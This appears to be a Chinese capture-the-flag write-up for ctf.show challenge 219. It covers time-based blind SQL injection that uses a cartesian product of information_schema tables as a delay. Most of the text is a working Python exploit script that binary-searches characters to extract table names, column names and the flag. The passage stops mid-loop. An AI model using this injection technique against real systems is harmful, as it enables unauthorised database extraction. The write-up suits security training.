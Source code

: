 <br/>

<br/>

### 219 笛卡尔积延时

![截图](fa966d8489b37404b67aecdd1e2aae00.png)

rlike也无了，所以换笛卡尔积

一个columns和两个tables的笛卡尔积刚好延时6秒左右

select count(*) from information_schema.columns A ,information_schema.tables B,information_schema.tables C

```
import time

import requests

url = "http://6a887fe9-0d60-463b-825c-6cfccacc07bb.challenge.ctf.show:8080/api/"
# 表名 ctfshow_flagxc,ctfshow_info
# payload = "ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}"
# 列名 id,flagaac
# payload = "ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database()),{},1))>{}"
# flag
payload = "ascii(mid((select flagaac from ctfshow_flagxc),{},1))>{}"


def valid_payload(p: str) -> bool:
    data = {
        "debug": 0,
        "ip": f"if({p},(select count(*) from information_schema.columns A,information_schema.tables B,"
              f"information_schema.tables C),1) "
    }
    time_s = time.time()
    _ = requests.post(url, data=data)
    time_e = time.time()
    # 改用手动计时防止多次没跑完的笛卡尔积叠加卡死影响注入
    return time_e-time_s > 4


index = 1
result = ""

while True:
    start = 32
    end = 127
    while not(abs(start - end) == 1 or start == end):
        everage = (start + end) // 2
        if valid_payload(payload.format(index, everage)):
            start = everage
        else:
            end = everage
    if end < start:
```